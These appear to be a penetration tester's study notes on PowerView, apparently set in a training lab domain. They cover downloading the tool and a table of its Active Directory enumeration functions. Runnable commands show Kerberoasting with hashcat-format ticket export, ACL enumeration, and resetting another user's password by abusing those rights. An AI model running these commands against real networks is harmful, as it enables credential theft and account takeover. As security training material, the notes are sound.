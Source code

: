 ==Powerview/SharpView== [Hacktricks](https://book.hacktricks.wiki/en/windows-hardening/basic-powershell-for-pentesters/powerview.html?highlight=powerview#powerviewsharpview)

PowerView is a powerful suite of PowerShell tools for Active Directory enumeration and compromise.

## Setup:
#### Install:
1. ```Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1" -OutFile "PowerView.ps1"```
2. `Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned` ==Adjust execution policy so you can run the command

#### Import: So you can run it
```powershell
Terminal>. .\PowerView.ps1
```


| **Command**                         | **Description**                                                                            |
| ----------------------------------- | ------------------------------------------------------------------------------------------ |
| `Export-PowerViewCSV`               | Append results to a CSV file                                                               |
| `ConvertTo-SID`                     | Convert a User or group name to its SID value                                              |
| `Get-DomainSPNTicket`               | Requests the Kerberos ticket for a specified Service Principal Name (SPN) account          |
| **Domain/LDAP Functions:**          |                                                                                            |
| `Get-Domain`                        | Will return the AD object for the current (or specified) domain                            |
| ==`Get-DomainController`==          | Return a list of the Domain Controllers for the specified domain                           |
| ==`Get-DomainUser`==                | Will return all users or specific user objects in AD                                       |
| `Get-DomainComputer`                | Will return all computers or specific computer objects in AD                               |
| `Get-DomainGroup`                   | Will return all groups or specific group objects in AD                                     |
| `Get-DomainOU`                      | Search for all or specific OU objects in AD                                                |
| `Find-InterestingDomainAcl`         | Finds object ACLs in the domain with modification rights set to non-built in objects       |
| `Get-DomainGroupMember`             | Will return the members of a specific domain group                                         |
| `Get-DomainFileServer`              | Returns a list of servers likely functioning as file servers                               |
| `Get-DomainDFSShare`                | Returns a list of all distributed file systems for the current (or specified) domain       |
| `Get-DomainObjectACL`               | Get the ACL of an object                                                                   |
| **GPO Functions:**                  |                                                                                            |
| `Get-DomainGPO`                     | Will return all GPOs or specific GPO objects in AD                                         |
| `Get-DomainPolicy`                  | Returns the default domain policy or the domain controller policy for the current domain   |
| **Computer Enumeration Functions:** |                                                                                            |
| `Get-NetLocalGroup`                 | Enumerates local groups on the local or a remote machine                                   |
| `Get-NetLocalGroupMember`           | Enumerates members of a specific local group                                               |
| `Get-NetShare`                      | Returns open shares on the local (or a remote) machine                                     |
| `Get-NetSession`                    | Will return session information for the local (or a remote) machine                        |
| `Test-AdminAccess`                  | Tests if the current user has administrative access to the local (or a remote) machine     |
| **Threaded 'Meta'-Functions:**      |                                                                                            |
| `Find-DomainUserLocation`           | Finds machines where specific users are logged in                                          |
| `Find-DomainShare`                  | Finds reachable shares on domain machines                                                  |
| `Find-InterestingDomainShareFile`   | Searches for files matching specific criteria on readable shares in the domain             |
| `Find-LocalAdminAccess`             | Find machines on the local domain where the current user has local administrator access    |
| **Domain Trust Functions:**         |                                                                                            |
| `Get-DomainTrust`                   | Returns domain trusts for the current domain or a specified domain                         |
| `Get-ForestTrust`                   | Returns all forest trusts for the current forest or a specified forest                     |
| `Get-DomainForeignUser`             | Enumerates users who are in groups outside of the user's domain                            |
| `Get-DomainForeignGroupMember`      | Enumerates groups with users outside of the group's domain and returns each foreign member |
| `Get-DomainTrustMapping`            | Will enumerate all trusts for the current domain and any others seen.                      |

```powershell
Get-DomainUser -Identity mmorgan -Domain inlanefreight.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,useraccountcontrol # Enumerate user information

Get-DomainGroupMember -Identity <groupname> -Recurse # Get all members of a group

Get-DomainTrustMapping # Enumerate domain trusts

Test-AdminAccess -ComputerName <computername>

1. Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName # Get Kerberoastable users (Service Accts with SPN)

2. Get-DomainUser -Identity <user> | Get-DomainSPNTicket       -Format hashcat # After finding a kerberoastable user, request their ticket in hashcat format

3. Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
# Request all users and export tickets to a file in hashcat format

```

# Access Control Lists
```powershell

$sid = Convert-NameToSid <user> # Get SID from username
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq <sid> } # Get ACL of user via sid

$guid= <GUID> 
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl # Get object from GUID

Get-DomainObjectACL -ResolveGUIDs -Identity <identity of interest or wildcard> | ? {$_.SecurityIdentifier -eq $sid} # Combine previous steps, resolve GUID in command

foreach($line in [System.IO.File]::ReadLines(<valid_users_file>)) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match '<domain>\\<user>'}} # List powers we have as the specified user

Set-DomainUserPassword -Identity <target username> -AccountPassword <new pscredential object> -Credential <user with privileges pscredential object> -Verbose # Reset another users' password using our ACL powers

```

PowerView is now maintained by BC-Security, who have taken over the Powershell Empire project and its GUI Starkiller. Additionally, another fork exists written in C# under the name [[SharpView]].
